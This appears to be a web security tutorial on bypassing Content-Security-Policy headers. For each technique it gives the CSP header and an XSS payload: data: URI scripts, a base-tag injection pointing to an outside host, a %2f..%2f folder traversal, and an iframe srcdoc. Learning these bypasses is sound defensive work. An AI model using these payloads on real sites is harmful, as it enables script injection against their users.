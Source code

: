 Content-Security-Policy: script-src data: ;

XSS payloads:

<script%20src=data:text/javascript,alert(1337)></script>

Here we can notice the above CSP header is implemented.



After submitting the above payload, we can achieve XSS, bypassing the CSP.



base-uri Bypass
A dangling markup injection can be performed if the base-uri directive is absent in the defined CSP. You can abuse the base tag to obtain an XSS by making the page load a script from your server if the script has a relative path (like /js/app.js). An HTTPS URL should be used if the vulnerable page is loaded over HTTPS.

CSP header

Content-Security-Policy: script-src 'nonce-abcd1234';

XSS payloads:

<Base Href=//X55.is>

We can notice that a CSP header is implemented like we discussed above.



After submitting the above payload, we get the xss,



Folder path bypass
When you use the %2f to encode '/' as part of your CSP policy and point it to a folder, it will still be considered part of the folder. That seems to be the case with almost all modern-day browsers.

When the server decodes it, it can be bypassed by using "%2f..%2f",  bypassing the folder restriction. For example, you can access http://example.com/company/, and executing http://example.com/company%2f..%2fattacker/file.js will bypass the restriction.

CSP header: 

Content-Security-Policy: script-src cobalt.io/safe-directory/

XSS payloads:

<script src="https://<abc>.com/safe-directory%2f..%2f/abc/unsafe-directory"></script> 

Bypassing CSP using IFRAME
Attackers can use Iframes to bypass the below CSP policy. An iframe from the whitelisted domain must be allowed by the application in order to perform the bypass. An XSS attack can be easily facilitated by using the srcdoc attribute of the iframe.

CSP header

Content-Security-Policy: default-src 'self' data: *; connect-src 'self'; script-src  'self' ; 

XSS payloads:

<iframe srcdoc='<script src="data:text/javascript,alert(document.domain)"></script>'></iframe>
